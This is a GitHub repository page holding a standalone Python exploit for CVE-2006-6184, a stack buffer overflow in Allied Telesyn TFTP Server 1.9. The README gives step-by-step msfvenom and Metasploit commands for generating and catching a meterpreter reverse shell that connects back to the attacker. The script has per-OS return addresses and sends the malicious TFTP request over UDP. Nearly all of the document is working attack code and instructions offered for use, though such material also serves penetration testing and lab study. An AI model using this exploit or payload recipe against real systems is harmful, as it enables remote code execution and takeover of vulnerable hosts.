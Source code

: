 INFO
----

    # CVE-2006-6184
    This is a python-based standalone exploit for CVE-2006-6184. This exploit triggers a stack-based buffer overflow in Allied Telesyn TFTP Server (AT-TFTP) 1.9, and possibly earlier, allowing remote attackers to cause a denial of service or execute arbitrary code.

    ### Instructions (Updated for 2020)
    The payload must be customized to include your own IP address and listening port, so you'll need to generate it manually.
    To do so, use the following steps:

    1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
    ```sh
    perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
    ```

    2.) Next, use the following command to create a staged meterpreter shell payload:
    ```sh
    msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
    ```

    3.) Then, combine the two files you just created.
    ```sh
    cat stackadj payload > shellcode
    ```

    4.) Finally, let's eliminate the bad characters.
    ```sh
    msfvenom -p generic/custom PAYLOADFILE=./shellcode -b "\x00" -e x86/shikata_ga_nai -f python
    ```

    Enter the output as the value of the "payload" variable. You may need to run this exploit a few times for it to work.

    ### Metasploit Listener
    1. use exploit/multi/handler
    2. set PAYLOAD windows/meterpreter/reverse_nonx_tcp
    3. set ExitOnSession false
    4. set AutoRunScript post/windows/manage/migrate
    5. exploit -j

atftp.py
--------

    #!/usr/bin/python
    # Standalone exploit for Allied Telesyn TFTP Server 1.9
    # Written by daleksec 07/21/2016
    # Special thanks to NetSec.ws for the excellent walk through (see http://netsec.ws/?p=262)

    import sys, socket

    if len(sys.argv)<=2:
     sys.exit('''Usage: python attftp_long_filename.py <IP Address> <Port> <Your IP Address> <OS choice>

     0  Windows NT SP4 English
     1  Windows 2000 SP0 English
     2  Windows 2000 SP1 English
     3  Windows 2000 SP2 English
     4  Windows 2000 SP3 English
     5  Windows 2000 SP4 English
     6  Windows XP SP0/1 English
     7  Windows XP SP2 English
     8  Windows XP SP3 English
     9  Windows Server 2003
     10 Windows Server 2003 SP2
     ''')

    host    = sys.argv[1]       # Victim's IP
    port    = int(sys.argv[2])  # Victim's Port
    lhost   = sys.argv[3]       # Attacker's IP
    os  = int(sys.argv[4])  # OS Choice
    ret = []            # Define array containing return addresses

    # Define return addresses (Source: Metasploit)
    ret = ["\xf7\xa6\x2e\x70",
        "\xc3\x62\x03\x75",
        "\x85\x1d\x03\x75",
        "\x1b\x43\x03\x75",
        "\x5a\x1c\xfe\x74",
        "\xce\x1d\x03\x75",
        "\xfb\x7b\xab\x71",
        "\x72\x93\xab\x71",
        "\x53\x93\x42\x7e",
        "\xd3\xfe\x86\x7c",
        "\x1b\xa0\x86\x7c"]

    nop = "\x90" * (25-len(lhost))  # Create a NOP string as to bring NOPs + LHOST up to 25 bytes

    # The payload must be customized to include your own IP address and listening port, so you'll need to generate it manually.
    # To do so, use the following steps:
    # 1.) Enter the following to create a hex file of the amount that needs to be subtracted from the stack pointer (3500):
    # perl -e 'print "\x81\xec\xac\x0d\x00\x00"' > stackadj
    # 2.) Next, use the following command to create a staged meterpreter shell payload:
    # msfvenom -p windows/meterpreter/reverse_nonx_tcp LHOST=[your IP] LPORT=[your port] R > payload
    # 3.) Then, combine the two files you just created.
    # cat stackadj payload > shellcode
    # 4.) Finally, let's eliminate the bad characters.
    # msfvenom -p generic/custom PAYLOADFILE=./shellcode -b "\x00" -e x86/shikata_ga_nai -f python
    # Enter the output as the value of the "payload" variable. You may need to run this exploit a few times for it to work.

    payload = "" # Payload (bad characters = \x00, stack adjustment = -3500, can't exceed 210 bytes of space)
    # payload += ""
    # payload += ""
    # ...

    exploit = "\x00\x02" + nop + payload + ret[os] + "\x83\xc4\x28\xc3\x00netascii\x00"     # Our exploit so far

    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)   # Declare a UDP socket
    client.sendto(exploit, (host, port))                # Send the exploit over UDP to the nominated addresses